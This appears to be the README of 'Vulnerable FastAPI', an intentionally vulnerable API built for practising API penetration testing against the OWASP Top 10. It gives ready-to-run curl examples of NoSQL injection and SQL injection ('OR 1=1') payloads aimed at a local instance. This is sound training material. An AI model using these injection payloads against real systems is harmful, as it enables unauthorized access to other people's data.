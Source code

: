 ![Vulnerable FastAPI Logo](./img/logo.png "Vulnerable FastAPI Logo")
<p align="center">
    <em>Vulnerable FastAPI, compliant to <a href="https://owasp.org/www-project-top-ten/">OWASP TOP 10: 2021</a></em><br><b> ⚠️ Under Development ⚠️</b>
</p>

> Vulnerable FastAPI is a simple vulnerable FastAPI application for learning API pentesting on vulnerable API endpoints. Please refer to `/docs` for information regarding endpoints.

### Current exploitation examples
```
$ export HOST="127.0.0.1"; export PORT=8888
```
NoSQLi
```
$ curl -s "http://$HOST:$PORT/find" -H 'Content-Type: application/json' -d '{"id":{"$in":[1,2]}}' | jq
```
SQLi
```
$ curl -s "http://$HOST:$PORT/select?username=%22%20OR%201%3D1%3B%20--%20" | jq
```
---
### Thanks
 - [FastAPI](https://tiangolo.fastapi.com)
 - [Faker](https://github.com/joke2k/faker)
 - [aioSQLite](https://github.com/omnilib/aiosqlite)
 - [MontyDB](https://github.com/davidlatwe/montydb)
 - [OWASP Top 10](https://owasp.org/www-project-top-ten/)


